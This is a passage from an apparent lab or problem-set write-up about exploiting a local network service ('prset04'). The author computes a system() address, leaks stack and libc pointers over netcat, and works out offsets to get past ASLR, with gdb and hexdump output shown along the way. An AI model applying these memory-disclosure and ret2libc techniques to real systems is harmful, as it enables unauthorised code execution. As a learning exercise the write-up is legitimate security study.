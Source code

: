 So,  `0x7fb8bd68f000 +  0x46640`
Will give us address to `system()`
And I confirmed that in `gdb by x/x etc`..

Launching this, I was able to get the shell opened, but I see it opened on the terminal where prset04 is executed. This is because we haven’t redirect stdiot/stdin to the opened socket.

**Here my first attempt ended!**


# Second Attempt -  Memory Disclosure & Evade ASLR
I spent most of the time working on this actually, the memory disclosure seems one of the hardest challenges but it turns at the end the solution was simpler that I thought.   I was going towards GOT/PLT overwrite or dereferencing… 

The issue here, the prset04 that is listening on 12000 run by different user and we cannot see `/proc/maps` for that process. So, the previous works only offline, but still gave us a lot of information about how we should proceed.  From several execution and trails and see many of buffer addresses & libc addresses. I determined that there is no direct calculation to determine libc addresses from buffer address.   

Taking a look at the output of the leaked information:


```
spatialisotope@prset04:~/prset04$ echo '7777777' | nc localhost 1111 | hexdump -C -v -n 40
00000000  01 00 00 00 00 00 00 00  a8 4a c2 12 9e 7f 00 00  |.........J......|
00000010  10 aa 56 40 ff 7f 00 00  04 00 00 00 00 00 00 00  |..V@............|
00000020  c8 bb 37 12 9e 7f 00 00                           |..7.....|
00000028
spatialisotope@prset04:~/prset04$ 
```

And at the same time by looking to the loaded libc address and buffer address from gdb, I figure out a quick way to determine needed offset without doing several calculations to reconstruct memory mappings.  

The trick I used is that looking to base addresses that appeared in the leaked information, and I found two kinds:
1. one will be used to determine buffer address 
2. the other will be used to determine libc address.

I feel I could use one, but it didn’t work for me just because each time, libc  does not get loaded on the same offset from the base address, this might me something I found called PIE but not sure. 

## Calculating offsets
So, here what I managed to do to figure out the addresses.

```
(gdb) p &buf	
$1 = (char (*)[1024]) 0x7fff1ffd1690

spatialisotope@prset04:~/rop$ grep libc /proc/4144/maps 
7f31bd27e000

spatialisotope@prset04:~/rop$ echo '7777777' | nc localhost 1111 | hexdump -C -v -n 40
00000000  01 00 00 00 00 00 00 00  a8 2a 93 be 31 7f 00 00  |.........*..1...|
00000010  60 16 fd 1f ff 7f 00 00  04 00 00 00 00 00 00 00  |`...............|
00000020  c8 9b 08 be 31 7f 00 00                           |....1...|
00000028
```
